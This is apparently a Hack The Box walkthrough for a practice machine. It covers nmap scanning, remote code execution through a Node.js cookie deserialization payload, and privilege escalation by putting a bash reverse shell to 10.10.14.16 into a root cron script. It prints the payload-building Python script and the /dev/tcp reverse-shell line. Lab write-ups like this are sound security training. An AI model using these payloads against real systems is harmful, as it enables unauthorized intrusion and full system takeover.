

# Box 


https://www.hackthebox.eu/home/machines/profile/130

# Profile

  

https://www.hackthebox.eu/home/users/profile/296177

# Table of contents

* [Enumeration](#enumeration)
* [Exploitation](#exploitation)
* [Post-Exploitation](#post-exploitation)
  + [User](#user)
  + [Root](#root)

# Contents 

## Enumeration

Let's start with nmap :

```bash
nmap -sV -sC -Pn --top-ports 1000 -oN scan_10.10.10.85 10.10.10.85
```


Let's take a look on the website : 


Nothing interesting. I started burp to see what we can do.


I searched for "X-Powered-By: Express" and found out that it is running nodeJS. 


When looking for exploits, I found some link about deserialization with the cookie .

https://www.exploit-db.com/docs/english/41289-exploiting-node.js-deserialization-bug-for-remote-code-execution.pdf


The cookie is encoded with base64. We can see the payload : 


Let's modify the number to 4.


It seems that we are injecting something. Let's try to put a string and not a number. 



We triggered an error. It seems that it is using eval. Let's dig a bit more on the internet for some exploits. 

## Exploitation

I found this link very useful : 

https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/

If you follow the same steps you can also use the `nodejsshell.py` to generate our own payload. 


We need to add `_$$ND_FUNC$$_function (){our_payload()}`to create a RCE. That's what I did and this what it looks like : 

```
{"username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"_$$ND_FUNC$$_function (){ #Insert what nodejsshell.py gave you }()"}
```

 I've done my own exploit to not be annoyed by the encoding : 

```python
from base64 import b64encode
payload = "_$$ND_FUNC$$_function (){{ {} }}()"

port_1234=#Insert what nodejsshell.py gave you
cookie='{{"username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"{}"}}'

full_cookie = cookie.format(payload.format(port_1234))
print(full_cookie)
print(b64encode(full_cookie))

```

We have a shell :


## Post-Exploitation

### User

We are already the user.


### Root

I found in a syslog a very interesting information : 


Root is executing a python script owned by sun every 5min.


Just modify your script.py and add :

```bash
os.system("bash -c 'exec bash -i &>/dev/tcp/10.10.14.16/1238 <&1'") 
```

Now you have to wait for 5 min....


Rooted.